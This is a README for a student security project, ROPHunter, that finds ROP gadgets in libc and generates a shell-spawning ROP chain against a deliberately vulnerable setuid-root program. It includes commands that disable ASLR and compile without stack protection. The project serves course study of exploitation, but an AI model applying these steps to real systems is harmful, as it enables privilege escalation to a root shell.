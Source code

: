 # CMPT 479 Project - ROPHunter

## Setup
- We'll disable ASLR:
```
sudo sysctl -w kernel.randomize_va_space=0
```

- We'll be running the following instructions within a Python virtualenv:
```
python3 -m venv venv
source venv/bin/activate
```

- Install all necessary requirements:
```
pip install -r requirements.txt
```

## Find Base Address of libc
- In this attack, we'll assume that libc is not statically linked to the executable
- We use `vuln.c` from assignment 1 as our example vulnerable program:
```
gcc -o vuln -z execstack -fno-stack-protector vuln.c
sudo chown root vuln
sudo chmod 4755 vuln
```
- We can run `ldd examples/vuln` to find this base address:
```
	linux-gate.so.1 =>  (0xb7fd9000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e09000)
	/lib/ld-linux.so.2 (0xb7fdb000)
```
In this example, libc's base address is `0xb7e09000`

## How to Find Gadgets
```
python3 rop.py <binary> <architecture> <mode>
```
For example:
```
python3 rop.py /lib/i386-linux-gnu/libc-2.23.so x86 32
```
*Warning, this step may take a few minutes* 

## How to Create an ROP Chain
- We create an ROP chain to launch a shell and insert that ROP chain into a buffer overflow in `examples/vuln.c`
```
python3 gen_shellcode.py <rophunter_path> <libc_offset>
```
For example:
```
python3 gen_shellcode.py gadgets/x86_32/libc_rophunter.txt 0xb7e09000
```
should produce an output: 

```
020000 => 6
d7c185c00f8571 => 14
0xb7f49f8f
Index: 23 => 0x8f
Index: 24 => 0x9f
Index: 25 => 0xf4
Index: 26 => 0xb7
08e864ffffff => 12
0xb7e34c6c
Index: 27 => 0x6c
Index: 28 => 0x4c
Index: 29 => 0xe3
Index: 30 => 0xb7
0xb0b0b0b
Index: 31 => 0xb
Index: 32 => 0xb
Index: 33 => 0xb
Index: 34 => 0xb
```

## How to Run ROPgadget
```
ROPgadget --binary <libc_path> --rawArch x86 --rawMode 32
```

## How to Evaluate Gadgets Found by ROPgadget vs. ROPHunter
```
python3 evaluate_rop.py <ropgadget_path> <rophunter_path>
```

For example:
```
python3 evaluate_rop.py gadgets/x86_32/libc_ropgadget.txt gadgets/x86_32/libc_rophunter.txt
```

- `evaluation/matches.txt` and `evaluation/mismatches.txt` correspond to gadgets that both ROPgadget and ROPHunter found at the same address.
- `evaluation/false_positives.txt` refers to gadgets that only ROPHunter found
- `evaluation/false_negatives.txt` refers to gadgets that only ROPgadget found
